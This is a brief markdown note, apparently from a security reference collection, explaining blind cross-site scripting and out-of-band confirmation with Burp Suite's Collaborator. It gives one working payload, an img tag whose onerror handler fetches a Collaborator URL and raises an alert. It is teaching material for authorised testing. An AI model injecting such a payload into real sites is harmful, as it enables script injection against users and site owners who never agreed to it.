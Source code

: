 # Blind Cross-Site Scripting

Blind cross-site scripting (XSS) attacks occur when an attacker is unable to directly see the results of their XSS payload on the targeted website, but can still confirm if the payload has executed successfully or not by observing the behavior of a third-party service, such as Burp Suite's Collaborator. Here are some payloads an attacker might use for testing blind XSS attacks using Burp Suite's Collaborator:

Basic Alert Payload:

```javascript
<img src='x' onerror='fetch("https://burp-collaborator.net"); alert("XSS");'>
```
